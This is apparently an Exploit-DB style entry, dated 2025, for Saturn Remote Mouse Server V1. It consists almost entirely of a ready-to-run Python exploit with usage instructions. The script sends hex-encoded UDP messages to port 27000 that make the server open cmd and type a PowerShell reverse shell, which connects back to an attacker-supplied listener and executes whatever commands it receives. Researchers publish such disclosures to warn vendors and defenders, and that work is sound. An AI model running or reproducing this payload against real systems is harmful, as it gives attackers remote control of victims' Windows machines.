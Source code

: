 
#### Exploit Title: Saturn Remote Mouse Server V1 - Remote Code Execution (RCE) 
#### Date: 2025-06-30
#### Exploit Author: tmrswrr
#### Vendor Homepage: https://www.saturnremote.com/
#### Software Link: https://apps.microsoft.com/detail/9PCRBT6TM5V8?hl=en-us&gl=US&ocid=pdpshare
#### Platform: Multiple
#### Version: V1
#### Tested on: Windows 10

#### Remote Code Execution Vulnerability via UDP Protocol in Local Network Services

#### USAGE : python3 saturn.py --lhost 192.168.1.110 --lport 4444

#### EXPLOIT 
```
import socket
import time
import argparse
import json

def main():
    parser = argparse.ArgumentParser(description='Send UDP commands and execute reverse shell')
    parser.add_argument('--lhost', required=True, help='Listener IP address')
    parser.add_argument('--lport', required=True, type=int, help='Listener port')
    args = parser.parse_args()

    UDP_IP = "192.168.1.109"
    UDP_PORT = 27000

    # Build PowerShell reverse shell command
    ps_command = (
        f"powershell -nop -c \"$c=New-Object System.Net.Sockets.TCPClient('{args.lhost}',{args.lport});"
        "$s=$c.GetStream();"
        "[byte[]]$b=0..65535|%{0};"
        "while(($i=$s.Read($b,0,$b.Length)) -ne 0){;"
        "$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);"
        "$r=iex $d 2>&1;"
        "$s.Write((New-Object -TypeName System.Text.ASCIIEncoding).GetBytes($r + 'PS > '),0,($r + 'PS > ').Length)"
        "}\""
    )

    # Create JSON payload for PowerShell command
    ps_payload = {"Key": ps_command}
    ps_json = json.dumps(ps_payload)
    ps_hex = ps_json.encode('utf-8').hex()

    messages = [
        # Connection messages
        "7b224973436f6e6e656374696e67223a2274727565227d",          # {"IsConnecting":"true"}
        "7b22636f6e6e656374696f6e223a2022616374697665227d",        # {"connection": "active"}
        
        # START command
        "7b2241726561486569676874223a302c22417265615769647468223a302c22436f6d6d616e644e616d65223a225354415254222c2258223a302c2259223a307d",
        
        # Open CMD
        "7b224b6579223a22636d64227d",          # {"Key":"cmd"}
        "7b224b6579223a225c6e227d",            # {"Key":"\\n"} - Enter to open cmd
        
        # Send PowerShell command as hex-encoded JSON
        ps_hex,
        
        # Send Enter to execute command
        "7b224b6579223a225c6e227d"             # {"Key":"\\n"} - Execute
    ]

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    
    print(f"[*] Sending setup commands to {UDP_IP}:{UDP_PORT}")
    print(f"[*] PowerShell command length: {len(ps_command)} characters")
    print(f"[*] JSON payload length: {len(ps_json)} characters")
    print(f"[*] Hex payload length: {len(ps_hex)} characters")

    # Send all messages with strategic delays
    for i, hex_msg in enumerate(messages):
        data = bytes.fromhex(hex_msg)
        sock.sendto(data, (UDP_IP, UDP_PORT))
        
        # Add longer delays for critical commands
        if i == 2:  # After START command
            delay = 2
        elif i == 5:  # After PowerShell command
            delay = 3
        else:
            delay = 1
            
        print(f"Sent command {i+1}/{len(messages)}: {data[:50].decode('utf-8', errors='ignore')}...[truncated]")
        time.sleep(delay)
    
    sock.close()
    print("[+] Reverse shell command sequence sent. Check your listener!")

if __name__ == "__main__":
    main()

```


